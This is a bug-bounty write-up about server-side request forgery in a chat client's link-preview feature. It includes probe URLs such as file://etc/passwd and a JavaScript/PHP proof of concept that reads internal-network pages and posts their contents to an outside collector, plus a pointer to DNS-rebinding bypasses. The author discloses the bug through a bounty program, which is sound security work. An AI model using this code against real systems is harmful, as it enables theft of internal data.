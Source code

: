 I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**POC**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t8.png)
Url decoding

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t9.png)

We are successful in getting the full content of any address on the internal network.


**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t23.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t11.png)

I got the highest bounty reward for this private project.

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t22.png)

